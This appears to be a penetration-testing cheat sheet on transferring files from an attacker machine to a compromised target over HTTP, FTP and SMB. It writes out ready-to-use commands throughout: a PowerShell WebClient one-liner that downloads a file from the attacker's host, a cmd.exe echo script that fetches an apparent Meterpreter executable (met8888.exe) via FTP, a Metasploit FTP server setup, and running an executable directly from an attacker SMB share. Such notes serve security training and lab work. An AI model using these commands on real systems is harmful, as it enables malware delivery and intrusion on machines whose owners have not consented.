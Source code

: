# File Transfer

File can either be transferred by:
* Push file to target
* Have the target to pull file back

### <span style="color:green">HTTP</span>

**On attacker machine**:

#### <span style="color:green">Apache</span>

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start


#### <span style="color:green">Python</span>

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer [port no]

**On target machine**:
> http://your_ip_address:your_port_num/filename

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

> powershell -c "<span style="color:blue">(new-object System.Net.WebClient).DownloadFile('http://your_ip_address:your_port_num/filename','C:\Users\dest_path\file_name')</span>"

or use cmd.exe to trigger IE

> cd Program Files\Internet Explorer
> start iexplore.exe [http://ip address/file]

### <span style="color:green">FTP</span>

#### vsftpd/pytftpd

**On attacker machine**:


`vsftpd` or simply the `pytftpd` library

> apt-get install python-pyftpdlib  

> python -m pyftpdlib -p [port_num]

default port is 2121

`-w` can grant the user write access

#### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

> use auxiliary/server/ftp

> set FTPROOT /root/shells

> exploit

Can be kill with:
> jobs -k [id]

**On target machine**:

Type it into your cmd.exe

>echo open <span style="color:blue">your_ip_address</span>\>ftp_commands.txt  
>echo anonymous>>ftp_commands.txt  
>echo whatever>>ftp_commands.txt  
>echo binary>>ftp_commands.txt  
>echo get met8888.exe>>ftp_commands.txt  
>echo bye>>ftp_commands.txt  
><span style="color:blue">ftp -s:ftp_commands.txt</span> 

### <span style="color:green">SMB</span>

**On attacker machine**:

> smbserver.py shareName sharePath 
> (e.g. smbserver.py TMP /tmp)

Check with smbclient
> smbclient -L \[your ip address\] --no-pass

**On target machine**:
or check on Windows
> net view \\\\\[attack machine ip address\]

Copy file 
`copy \\[your ip address]\Sharepath .`

Or execute the file directly from SMB
`\\[your ip address]\file.exe`


